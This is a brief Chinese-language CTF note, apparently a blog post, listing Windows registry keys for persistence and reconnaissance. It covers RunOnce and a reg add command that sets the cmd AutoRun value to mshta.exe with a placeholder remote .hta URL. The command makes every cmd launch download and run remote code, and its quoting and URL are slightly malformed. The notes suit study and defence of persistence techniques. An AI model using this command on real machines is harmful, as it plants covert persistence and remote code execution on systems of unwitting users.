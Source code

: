 ```yaml
---
title: 注册表项 
date: 2023-08-29 14:19:49
categories: CTF
tags: [Windows]
---
```


本文记录那些可以被用来权限维持以及信息探测的注册表项。

## 启动进程

`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce` 

用于指定那些只需要在下次系统启动时运行一次的程序或命令。与此位置相关的命令或程序在执行完一次后通常会从此列表中自动删除。 

## 下载并执行

```
reg add 'HKCU\Software\Microsoft\Command Processor' 
/v AutoRun /t REG_SZ /d 'mshta.exe' http:/exam/1.hta /f
```

 通过注册表设置命令行默认启动项，当目标启动cmd时，便会下载并执行远程hta文件。 

